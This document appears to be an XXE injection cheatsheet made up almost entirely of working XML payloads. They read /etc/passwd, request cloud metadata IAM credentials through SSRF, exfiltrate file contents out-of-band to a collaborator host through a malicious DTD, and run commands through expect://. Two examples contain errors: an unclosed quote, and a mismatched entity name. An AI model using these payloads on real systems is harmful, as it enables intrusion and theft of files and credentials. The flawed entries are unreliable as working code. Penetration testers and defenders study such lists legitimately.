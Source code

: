 # XXE Cheatsheet

## using external entities
```xml
<!DOCTYPE root [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<root>&xxe;</root>
```

## perform SSRF attacks
```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
```

## Blind XXE with out-of-band interaction
```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://burp-collab"> ]>
```

## Blind XXE with out-of-band interaction via XML parameter entities
```xml
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://burp-collaborator> %xxe; ]>
```

## blind XXE to exfiltrate data using a malicious external DTD
DTD file
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; test SYSTEM 'http://burp-collaborator/?a=%file;'>">
%eval;
%test;
```

## blind XXE to retrieve data via error messages
DTD file:
```xml
<!ENTITY % passwd SYSTEM "file:///etc/passwd">
<!ENTITY % notvalid "<!ENTITY &#x25; test SYSTEM 'file:///invalid/%file;'>">
%notvalid;
%test;
```

## XInclude to retrieve files
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

## XXE via image file upload
```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

## XXE inside SOAP body
```xml
<soap:Body><foo><![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]></foo></soap:Body>
```

## XXE: Base64 Encoded:
```xml
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```

## XXE inside SVG
```xml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>
```





